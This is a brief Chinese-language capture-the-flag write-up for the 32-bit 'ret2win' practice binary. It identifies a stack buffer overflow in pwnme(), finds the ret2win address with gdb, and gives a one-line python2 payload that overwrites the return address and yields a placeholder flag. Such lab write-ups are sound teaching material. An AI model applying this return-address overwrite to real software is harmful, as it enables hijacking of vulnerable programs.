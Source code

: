 ## Pwn
列舉一下 functions
```
0x0804857b  main
0x080485f6  pwnme -> fgets(buf, 50, fp) where buf is `char buf[32]`
0x08048659  ret2win
```

查 ret2win() 的位址
```
(gdb) p ret2win
$1 = {<text variable, no debug info>} 0x8048659 <ret2win>
```

完成
```
$ python2 -c 'print 11 * 4 * "A" + "\x59\x86\x04\x08"' | ./ret2win32
```

flag: `ROPE{a_placeholder_32byte_flag!}`
